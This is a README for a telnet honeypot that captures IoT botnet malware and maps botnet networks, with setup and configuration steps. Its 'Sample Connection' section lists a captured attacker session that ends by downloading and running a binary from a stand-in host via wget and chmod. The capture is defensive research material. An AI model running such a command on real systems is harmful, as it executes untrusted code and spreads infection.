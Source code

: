 ## Disclaimer

This project neither supported or in development anymore. It is based on python2 which has reached its EOL in 2020 and uses dependencies which are getting harder to install over time. Use at your own risk! 

# Telnet IoT honeypot

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

The honeypot works by emulating a shell enviroment, just like 
cowrie (https://github.com/micheloosterhof/cowrie).
The aim of this project is primarily to automatically analyse
Botnet connections and "map" Botnets by linking diffrent
connections and even Networks together.

## Architecture

The application has a client/server architecture,
with a client (the actual honeypot) accepting telnet connections
and a server which receives information about connections and
does the analysis.

The backend server exposes a HTTP interface which is used
to access to frontend as well as by the clients to push new
Connection information to the backend.

## Automatic analysis

The Backend uses 2 diffrent mechanisms to automatically link
connections:

### Networks

Networks are discovered Botnets. A network is the set of all linked
connections, urls and samples. Urls and samples
are linked when they are used in a connection. Two connections are linked
when both connections are recieved by the same honeypot client
(mutliple clients are supported!) and use the same credentials in a short
period of time (defautl 2 minutes) or come from the same IP address.

### Malware

Multiple networks are identified to use the same type of malware
if the text entered during sessions of the networks aro mostly the
same. This comparison is done using sort of "hash"-function which
basically translates a session (or connection) into a sequence
of words and then maps each word to a single byte so this resulting
sequence of bytes can be easily searched.

# Running in container

```bash
podman run \
	--name honeypot \
	-v ./log:/tmp \
	-p 2323:2323 \
	-p 5000:5000 \
	--rm sainnhe/telnet-iot-honeypot:latest
```

Where `2323` is telnet port, and `5000` is web server port. The log is available in `./log`.

If you want to use custom config, copy `config.dist.yaml` to `config.yaml` and edit the content in `config.yaml`, then mount it like this:

```bash
podman run \
	--name honeypot \
	-v ./config.yaml:/root/telnet-iot-honeypot/config.yaml \
	-v ./log:/tmp \
	-p 2323:2323 \
	-p 5000:5000 \
	--rm sainnhe/telnet-iot-honeypot:latest
```

# Running manually

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Configuration

The backend requires a SQL-database (default sqlite) which is initialized
at first run. Before the first run you should generate a admin account
which is used to generate more users. The admin account can also directly
used by a client to post connections. When more than one honeypots shall be
connected, creating multiple users is recommended.

	bash create_config.sh

Both client and backend will read the files `config.yaml` and `config.dist.yaml`
to read configuration parameters. The `config.dist.yaml` file includes
default values for all but admin user credentials and these parameters
are overwirtten by entries in the `config.yaml` file.

## Running the Server

	python backend.py

## Running the Client

This project contains an own honeypot, however because of the client-server architecture,
other honeypot can be used as well.

### Using the built-in honeypot

	python honeypot.py

The client cannot be started without the server running. To use a diffrent configuration
for the client you can use the `-c` switch like this:

	python honeypot.py -c myconfig.yaml

If you only want to check the honeypot functionality,
you can start the client in interactive mode:

	python honeypot shell

### Using cowrie

I wrote an output plugin for cowrie, which has much more features than the built in honeypot.
If you want to use cowrie instead, checkout my fork which includes the output module here:
https://github.com/Phype/cowrie .

## Opening the frontend

After the server is started, open `http://127.0.0.1/` in your favorite browser.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)
